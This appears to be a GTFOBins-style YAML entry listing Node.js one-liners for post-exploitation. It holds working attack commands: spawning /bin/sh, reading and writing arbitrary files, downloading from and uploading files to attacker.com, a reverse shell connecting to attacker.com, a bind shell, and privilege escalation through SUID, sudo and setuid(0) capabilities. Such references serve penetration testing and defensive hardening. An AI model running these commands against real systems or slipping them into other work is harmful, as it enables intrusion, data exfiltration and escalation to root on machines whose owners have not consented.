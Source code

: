 functions:
  shell:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
  file-write:
    - code: node -e 'require("fs").writeFileSync("file_to_write", "DATA")'
  file-read:
    - code: node -e 'process.stdout.write(require("fs").readFileSync("/bin/ls"))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        node -e 'require("http").get(process.env.URL, res => res.pipe(require("fs").createWriteStream(process.env.LFILE)))'
  file-upload:
    - description: Send a local file via HTTP POST request.
      code: |
        export URL=http://attacker.com
        export LFILE=file_to_send
        node -e 'require("fs").createReadStream(process.env.LFILE).pipe(require("http").request(process.env.URL))'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        })'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT)'
  suid:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
  sudo:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
---
